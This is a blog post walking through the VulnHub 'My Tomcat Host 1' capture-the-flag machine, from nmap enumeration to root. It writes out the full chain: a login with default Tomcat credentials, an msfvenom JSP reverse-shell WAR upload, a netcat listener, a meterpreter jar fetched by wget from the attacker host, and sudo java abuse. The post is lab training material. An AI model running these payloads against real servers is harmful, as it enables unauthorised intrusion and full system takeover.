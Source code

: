 ```yaml
---
published: true
layout: post
title: Tomcat Host VulnHub
category: vulnhub
---
```

**Url**: [Tomcat Host 1 VulnHub](https://www.vulnhub.com/entry/my-tomcat-host-1,457/) 

**Difficulty**: Easy/Beginner Level 

**Author**: Akanksha Sachin Verma 

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

	netdiscover -i eth1
    
![netdiscover](https://i.imgur.com/IhhB5af.png)

Then an nmap scan:

	nmap -p- -A 192.168.56.110

![nmap](https://imgur.com/fqEpNx9.png)

A closer look at port 8080 on my broswer reveals a Apache Tomcat/9.0.31 

![tomcat](https://imgur.com/e78J3dy.png)

Apache Tomcat is an application server designed to execute Java servlets and render web pages that use Java Server page coding.

The "Manager App" section requires a username and password. The default credentials for Tomcat work (tomcat:tomcat).

	192.168.56.110:8080/manager/html

The Web Application Manager is an opportunity to upload a reverse shell. I'll be using msfvenom to create a reverse shell. This is a good website on how to use msfvenom for reference:

[Offensive Security](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

The payload must be a war file, listening on port 4444 with my local adddress.

	msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.56.101 lport=4444 -f war > fedai.war

This will be uploaded here:

![upload](https://imgur.com/N4Ns2uf.png)

Before executing the payload, listen on port 4444 with netcat:

	nc -nvlp 4444

Now it must be executed, so we visit the path where it is kept, in my case /fedai. We now have a reverse shell. Uid is 'tomcat'.

	id
	python -c 'import pty;pty.spawn("/bin/bash")'

![deployed](https://imgur.com/2hdSVjH.png)


### User

Always check sudo priviliges to see how we can start escelating priviliges:

	sudo -l
   
![sudo l](https://imgur.com/50SztJT.png)

As demonstrated, the user tomcat can run commands here:	/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.242.b08-0.el7_7.x86_64/jre/bin/java. This is an openjdk java binary file which we can use to exploit priviliges.

We'll be creating another reverse shell payload on meterpreter in a java file format. Listening port will be 5555 with my local IP address again. The file will be downloaded on the victims pc so this file will be created under the apache web directory on my machine.

	msfvenom --platform java -f jar -p java/meterpreter/reverse_tcp lhost=192.168.56.101 lport=5555 > fedai.jar

![www](https://imgur.com/0IDSyUh.png)

Start the apache2 service:

	service apache2 start

Go to the temp directory on the victims machine and transfer the payload over.

	cd /tmp
	wget http://192.168.56.101/fedai.jar

![wget](https://imgur.com/PmLq6W1.png)


### Root

Before executing, we need to set up the meterpreter payload listener on metasploit:

	msfconsole
	use exploit/multi/handler
	set payload java/meterpreter/reverse_tcp
	set lport 5555
	run

![meterpreter](https://imgur.com/UWIDebS.png)

Let's execute this payload with the following command:

	sudo java -jar fedai.jar

![exe](https://imgur.com/6tya58T.png)

We get a successful connection from the tomcat machine as seen on meterpreter, the current user has been identified as root!

![connection](https://imgur.com/4NfW5Ls.png)
